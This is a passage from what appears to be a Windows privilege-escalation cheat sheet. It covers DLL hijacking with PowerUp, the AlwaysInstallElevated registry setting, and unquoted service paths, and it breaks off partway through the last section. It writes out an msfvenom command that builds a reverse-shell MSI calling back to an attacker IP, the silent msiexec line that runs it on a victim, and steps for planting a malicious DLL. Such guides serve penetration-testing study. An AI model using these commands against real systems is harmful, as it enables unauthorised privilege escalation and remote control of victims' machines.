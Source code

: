 In Windows environments when an application or a service is starting it looks for a number of DLL’s in order to function properly. If these DLL’s doesn’t exist or are implemented in an insecure way (DLL’s are called without using a fully qualified path) then it is possible to escalate privileges by forcing the application to load and execute a malicious DLL file.

- Find missing DLL

```powershell
powershell.exe -ep bypass -c Import-Module .\powerup.ps1; Find-PathDLLHijack
```

- Check if you have frite permission in the directory

```powershell
icacls <path dll>
```

- Compile a malicios dll with msfvenom and move it into the vulnerable directory.
- Restart the process

---

### AlwaysInstallElevated

_AlwaysInstallElevated is functionality that offers all users (especially the low privileged user) on a windows machine to run any MSI file with elevated privileges._

- Check if these 2 registry value is 1.

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

- If yes, create malicious file.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f msi-nouac -o evil.msi
```

- Execute your file on victim.

```powershell
msiexec /quiet /qn /i C:\evil.msi
```

---

### Unquoted paths

_If we find a service running as SYSTEM/Administrator with an unquoted path and spaces in the path we can hijack the path and use it to elevate privileges_

- For example, the following path would be vulnerable:

```powershell
C:\Program Files\canon\IJ Scan Utility\SETEVENT.exe
```

- We could place our payload with any of the following paths:\*
